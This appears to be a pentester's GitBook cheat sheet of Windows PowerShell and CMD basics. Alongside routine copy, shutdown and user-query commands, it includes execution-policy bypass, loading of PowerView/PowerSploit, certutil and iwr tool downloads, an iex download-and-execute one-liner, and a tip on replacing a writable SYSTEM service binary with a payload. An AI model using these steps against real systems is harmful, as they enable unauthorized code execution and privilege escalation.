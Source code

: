 ```yaml
---
description: The basic of Powershell and CMD
---
```


# Basic Command

This note was created when I was not very familiar with the Windows environment. I didn't know how to restart the machine from the command line, copy files, or import PowerShell scripts, etc.

### Basic PowerShell

Enter powershell with Execution Policy Bypass

{% code overflow="wrap" %}
```powershell
powershell -ep bypass
```
{% endcode %}

Or, if you already inside powershell session, you can set Execution Policy with this command:

{% code overflow="wrap" %}
```powershell
Set-ExecutionPolicy Bypass -Scope CurrentUser
```
{% endcode %}

Load powershell script function into memory with dot sourcing:

```powershell
. .\PowerView.ps1
```

Import module to powershell:

{% code overflow="wrap" %}
```powershell
import-module .\Powerspolit.psd1
```
{% endcode %}

### Copy  & Move

How to copy file:

{% code overflow="wrap" %}
```powershell
copy source.exe destination.exe
```
{% endcode %}

How to copy directory:

```powershell
xcopy C:\source_dir D:\dest_dir /E /I /Y
```

Explanation:

* `/E` – Copies all subdirectories, including empty ones.
* `/I` – If the destination does not exist and copying more than one file, this option assumes that the destination must be a directory.
* `/Y` – Suppresses prompting to confirm you want to overwrite an existing destination file.

How to Move File or Directory

{% code overflow="wrap" %}
```powershell
move payload.exe C:\temp\service.exe
```
{% endcode %}

### Rename&#x20;

Sometimes, after found service run as SYSTEM user and writable by low user, you can drop payload to the directory and rename the payload to match the service name.

```powershell
ren Payload.exe Service.exe
```

### Download

certutil.exe

{% code overflow="wrap" %}
```powershell
certutil -urlcache -split -f https://example.com/example.txt example.txt
```
{% endcode %}

powershell.exe: Invoke-WebRequest

{% code overflow="wrap" %}
```powershell
iwr -Uri "http://172.16.8.1:9005/PowerView.ps1" -OutFile "PowerView.ps1"
```
{% endcode %}

### Download and Execute

powershell.exe: Invoke-Expression

{% code overflow="wrap" %}
```powershell
iex ((New-Object Net.WebClient).DownloadString("http://example.com/script-exec.ps1"))
```
{% endcode %}

### Restart and Shutdown

Shutdown now:

```powershell
shutdown /s /t 0 /f
```

Restart now:

{% code overflow="wrap" %}
```powershell
shutdown /r /t 0 /f
```
{% endcode %}

### Convert to Base64

{% code overflow="wrap" %}
```powershell
[convert]::ToBase64String((Get-Content -path "20230908145747_BloodHound.zip" -Encoding byte))
```
{% endcode %}

### Privileges, User, and Groups

User stuff:

```
whoami /all
whoami /priv
whoami /group
net user
net user asuka
```

Localgroup stuff:

```powershell
net localgroup
net localgroup Administrators
```

Check group member

{% code overflow="wrap" %}
```powershell
Get-LocalGroupMember -Group "Administrators"
Get-ADGroupMember -Identity Administrators | Select-Object name, objectClass,distinguishedName
```
{% endcode %}
